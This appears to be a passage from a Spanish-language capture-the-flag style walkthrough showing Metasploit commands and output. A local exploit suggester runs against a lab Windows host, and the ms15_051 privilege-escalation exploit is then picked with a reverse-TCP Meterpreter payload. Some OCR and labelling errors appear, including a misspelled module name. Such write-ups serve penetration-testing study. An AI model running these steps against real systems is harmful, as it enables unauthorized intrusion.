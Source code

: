 ```lua
   Nombre             Configuración Actual  Requerido  Descripción
   ----               --------------------  --------  -----------
   SESSION                               sí       La sesión para ejecutar este módulo
   SHOWDESCRIPTION  false                 sí       Muestra una descripción detallada de los exploits disponibles
```

```plaintext
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
```

```makefile
SESSION => 1
```

```plaintext
msf6 post/multi/recon/local_exploit_suggester) > run
```

```less
[*] 10.10.10.15 - Recopilando exploits locales para x86/windows...
[*] 10.10.10.15 - Se están probando 34 comprobaciones de exploit...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: El servicio está en ejecución, pero no se pudo validar.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: El objetivo parece ser vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: El objetivo parece ser vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: El objetivo parece ser vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: El servicio está en ejecución, pero no se pudo validar.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: El objetivo parece ser vulnerable.
[*] Ejecución del módulo de post completada
```

Ejecutar el módulo de recon nos presenta con una multitud de opciones. Al revisar cada uno por separado, llegamos a la entrada `ms15_051_client_copy_image`, que resulta ser exitosa. Este exploit nos coloca directamente en un shell de root, dándonos el control total sobre el sistema objetivo.

### MSF - Escalación de Privilegios

```plaintext
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images
```

```plaintext
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > show options
```

```bash
   Nombre     Configuración Actual  Requerido  Descripción
   ----       --------------------  --------  -----------
   SESSION                   yes       La sesión para ejecutar este módulo.
```
